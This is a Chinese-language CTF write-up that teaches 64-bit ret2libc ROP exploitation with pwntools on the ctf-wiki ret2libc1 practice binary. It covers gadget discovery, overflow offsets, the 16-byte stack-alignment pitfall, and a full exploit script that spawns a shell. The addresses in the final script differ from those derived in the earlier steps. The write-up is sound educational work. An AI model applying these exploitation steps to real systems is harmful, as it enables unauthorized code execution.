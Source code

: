 ```yaml
---
title: pwntools使用第二弹——简单ROP实践
catalog: true
date: 2021-10-04 13:59:31
tags:
- 栈溢出
- pwn
- linux
categories:
- 技术
lang: en
subtitle:
header-img: /rain_and_tyo/img/titles_img/hello_world_bg.jpg
---
```

​
# 环境准备

系统环境：Ubuntu 21.04
内核版本：Linux 5.11.0
cpu架构：x86_64
gcc：7.5.0
gdb：9.2
python：3.8.5
pwndbg：2020.07.23

# ROP概念介绍

ROP是用来绕过NX保护的，开启 NX 保护的话栈、堆的内存空间就没有执行权限了，直接向栈或者堆上直接注入代码的攻击方式就无效了。

ROP的主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

之所以称之为 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序。ROP 攻击一般得满足如下条件

程序存在溢出，并且可以控制返回地址。

可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

如果 gadgets 每次的地址是不固定的，那我们就需要想办法动态获取对应的地址了。

# ret2libc1

## 题目链接：

[ret2libc1](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc1)

## 题目说明：

原题给的是一个32位的程序，这里我们重新编译一下源码，对**64位的程序**进行攻击：

```bash

gcc -fno-stack-protector -fno-PIE -no-PIE -o ret2libc1_x64 ret2libc1.c

```

## 解题步骤

1. 首先查看程序开启的防护有哪些：checksec ret2libc1_x64
	​​​​​​​​![new world](1.png)
	 可以看到，程序没有开启canary和pie，NX是开启的，因此不能直接在堆、栈区执行代码，可以使用ROP来绕过NX保护
 
2. 使用ROPgadget检查程序中是否存在/bin/sh字符串：
	```bash
	ROPgadget --binary ret2libc1_x64 --string="/bin/sh"
	```
	发现存在，地址为0x402004：

3. 检查程序中是否使用了system函数，如果有的话就可以直接构造system("/bin/sh")命令来获取shell：
	```bash
	objdump -S ret2libc1_x64 | grep system
	```
	发现存在system，地址为0x4010c0
	
	这里注意一点是我们需要的是system的**plt地址**，不是存放call指令的地址，关于plt&got的概念，简单说就是用来间接寻址的，调用函数的时候首先跳转到plt，然后plt指向got，最后got指向plt调用函数的真正位置，详细的说明可以参考如下博客：
	[https://cloud.tencent.com/developer/article/1590167](https://cloud.tencent.com/developer/article/1590167)

4. 拿到了/bin/sh字符串和system函数的地址，下一步是查看溢出范围，使用gdb ret2libc1_x64进行调试，可以发现gets函数调用时的汇编指令：
![new world](2.png)
rdi里存的是函数的第一个参数，也就是gets函数的第一个参数的地址是在rbp下面0x70个字节的地方，我们知道栈溢出的方向是从低地址往高地址，所以gets函数需要一个0x70长的字符串就可以溢出到rbp指向的地址的值，而rbp的上一个栈块里存放的就是ret指令要读取的返回地址，因此我们溢出**0x70+8**字节的数据后，再溢出的数据就可以覆盖到ret地址了

5. 现在可以编写payload了，大概思路是：首先填充0x70+8长度的脏数据，达到ret地址处，然后填入system函数的plt地址，这样执行完gets就会跳转到system函数继续执行了。

	现在关键问题来了，**system函数的参数  /bin/sh  字符串怎传进去**?

	这里有一个跟32位程序很大的不同，在32位程序中，函数的参数是全部放在栈里的，因此在32位程序的payload里，会直接把参数字符串所在地址溢出到栈里面，但是x64的函数参数是优先放在寄存器里的，准确说前六个整型或指针参数会依次保存在 RDI, RSI, RDX, RCX, R8 和 R9 寄存器中，如果还有更多的参数的话才会保存在栈上，因此我们在调用system函数之前，需要先把参数地址写入到rdi寄存器中。
	
	为了改变rdi寄存器的值，我们需要先用ROPgadget找一下程序里有没有可以用的gadgets：
	```bash
	
	ROPgadget --binary ret2libc1_x64 --only="pop|ret"
	
	```
	这里我们选用0x401333地址处的gadgets：

6. ok，到现在我们需要的信息都已经收集到了，可以写payload了：

	```bash
	
	payload = b'a'*(0x70+8) +\          # 填充脏数据至ret地址处
	                 p64(0x401333) +\   # 填入rdi的gadgets的地址
	                 p64(0x402004) +\   # 填入/bin/sh字符串的地址，这样执行pop rdi就可以把字符串地址弹入rdi寄存器了
	                 p64(0x4010c0)      # 填入system函数的地址
	
	```
	直接运行这个payload，有的小伙伴可能成功了，有的小伙伴却会发生段错误，这是咋回事？
	**这里有个坑要注意一下！！！**
	如果gcc版本比较老的话（7.3以下，比如5.4版本）不会有段错误，但如果版本比较高比如我的环境里的gcc版本是7.5.0，就会有**段错误！**
	通过pwntools的gdb.attach()命令调试，我发现段错误发生的位置如下：
![new world](3.png)
可以看到，程序在执行了movaps命令后发生了段错误，而这个命令要求**栈满足16字节对齐**，而我们的栈空间当前明显是8字节对齐的。。
所以发生段错误的原因就是：**我们填入payload之后栈空间不满足16字节对齐，而gcc 7.5版本在编译后生成的代码会检查栈空间是否16字节对齐**
知道问题根因后，我们修改一下payload，使其满足16字节对齐：
	```bash
	
	payload = b'a'*(0x70+8) +\   # 填充脏数据至ret地址处
			  p64(0x4005fe) +\   # 填入ret指令，用于拼凑payload满足16字节对齐
	          p64(0x401333) +\   # 填入rdi的gadgets的地址
	          p64(0x402004) +\   # 填入/bin/sh字符串的地址，这样执行pop rdi就可以把字符串地址弹入rdi寄存器了
	          p64(0x4010c0)      # 填入system函数的地址
	
	```
7. 完整的exp如下：
	```bash
	from pwn import *
	system_addr=p64(0x400620)
	ret_addr=p64(0x4005fe)
	bin_str=p64(0x4008b4)
	pop_edi_addr=p64(0x400893)
	payload=b'a'*120 + ret_addr  + pop_edi_addr + bin_str + system_addr
	p=process("./ret2libc1_x64")
	p.sendline(payload)
	p.interactive()
	```
	把脚本跟ret2libc1_x64文件放在同一目录运行一下，成功获得shell：
	![new world](4.png)

# 小结
这个题还是很简单很基础的，唯一需要注意的坑就是**栈要保持16字节对齐**，关于movaps汇编指令，详细介绍可以参考一下如下博文：
[SSE指令学习](https://www.cnblogs.com/zhengjianhong/p/7879367.html)

​